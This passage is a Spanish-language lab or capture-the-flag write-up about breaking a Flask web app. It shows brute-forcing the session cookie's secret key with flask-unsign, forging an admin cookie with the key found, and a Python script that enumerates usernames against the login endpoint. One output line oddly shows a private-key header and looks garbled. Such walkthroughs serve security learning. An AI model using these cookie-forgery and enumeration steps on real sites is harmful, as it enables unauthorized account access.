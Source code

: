 Después de investigar, descubrimos que el tipo de cookie es utilizado por Flask. Esta cookie está firmada con una clave secreta que se almacena en la clase `app.config`. Si pudiéramos forzar la clave secreta por fuerza bruta, podríamos falsificar nuestra propia cookie con cualquier nombre de usuario y obtener acceso a las notas de otros usuarios.

## Crackeando la Clave Secreta de Flask

Usando [flask-unsign](https://pypi.org/project/flask-unsign/), podemos forzar la clave "secreta" por fuerza bruta:

```bash
flask-unsign --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiamF5ZGVuIn0.Yn0P8Q.XaXAKhvjJ6uPpxdUw1V0KPitAW8'
```

```
[*] Session decodes to: {'logged_in': True, 'username': 'jayden'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2048): -----BEGIN PRIVATE KEY-----***
[+] Found secret key after 16768 attempts
'secret123'
```

Luego confirmé que esta era la clave secreta para firmar cookies, generando mi propia cookie nuevamente y confirmando que aún podía iniciar sesión:

```bash
flask-unsign --sign --cookie "{'logged_in': True, 'username' :'admin'}" --secret secret123
```

```
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.YoIo2Q.spOR6sUSMWZOX5_xKq9iiwkfTFk
```

## Enumeración de Usuarios

Con esto ahora podemos comenzar a forzar los nombres de usuario. Script para enumerar nombres de usuario válidos:

```python
import sys
import requests

filename = sys.argv[1]
url = 'http://10.10.11.160:5000/login'
proxies = {'http':'http://127.0.0.1:8080'}

with open(filename) as file:
    lines = file.readlines()
    lines = [line.rstrip() for line in lines]
    
    for line in lines:
        data = {'username':line, 'password':'1234'}
        x = requests.post(url, data, proxies=proxies)
        if("Invalid login" in x.text):
            print(line)
```
